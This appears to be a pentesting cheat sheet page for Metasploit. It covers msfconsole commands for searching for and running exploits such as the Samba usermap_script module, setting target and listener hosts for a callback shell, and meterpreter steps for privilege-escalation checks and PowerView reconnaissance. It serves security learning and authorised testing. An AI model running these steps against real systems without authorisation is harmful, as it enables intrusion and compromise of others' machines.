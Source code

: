 ```yaml
---
title: "Metasploit"
date: 2024-6-28
tags: ["Exploitation", "Post-Exploitation", "Searchsploit", "Metasploit", "Vulnerability Scanning", "Exploit", "Meterpreter", "Windows", "Msfconsole"]
---
```


{{< tab set1 tab1 >}}msfconsole{{< /tab >}}
{{< tab set1 tab2 >}}meterpreter{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start msfconsole

```console
msfconsole -q
```

#### Basic Commands

```console
# Return to previous page
back
```

```console
# Upgrade session
sessions -u
```

```console
# quit metasploit
exit
```

#### Search Exploit

```console
# For example: samba
search samba
```

```console
# Choose by #num
use 15
```

```console
# Choose by full path
use exploit/multi/samba/usermap_script
```

```console
# Show exploit settings
options
```

```console
# Set option, e.g.
set rhosts <TARGET>
```

```console
set lhost <LOCAL_IP>
```

```console
set lport <LOCAL_PORT>
```

```console
# Run exploit
run 
```

<small>*Hint: If you see a session is opened, but sit at an empty line, just type your cmd and press enter*</small>

#### Add scripts from searchsploit

```console
mkdir -p ~/.msf4/modules/exploits/linux
```

```console
mkdir -p ~/.msf4/modules/exploits/windows
```

```console
# For example a linux script
cp 12345.rb ~/.msf4/modules/exploits/linux
```

```console
# Inside msfconsole
reload_all
```

```console
# Search
search 12345
```

#### Fix no search result

```console
# Inside msfconsole, check db status
db_status
```

```console
sudo service postgresql start
```

```console
update-rc.d postgresql enable
```

```console
sudo msfdb init
```

```console
# Go bask to msfconsole and check again
db_status
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Basic Commands

```console
# Return from meterpreter
background
```

#### Use Exploit

```console
# Quick look of potential privesc (Windows)
# Need to return from meterpreter
use post/multi/recon/local_exploit_suggester
```

```console
# Select opened session
set session 1
```

```console
# Show exploit settings
options
```

```console
# Set option, e.g.
set rhosts <TARGET>
```

```console
# Run exploit
run 
```

#### Use powershell

```console
# Use powershell module
use powershell
```

```console
# Import module
powershell_import /usr/share/windows-resources/powersploit/Recon/PowerView.ps1
```

```console
# Spawn powershell session
powershell_shell 
```

{{< /tabcontent >}}
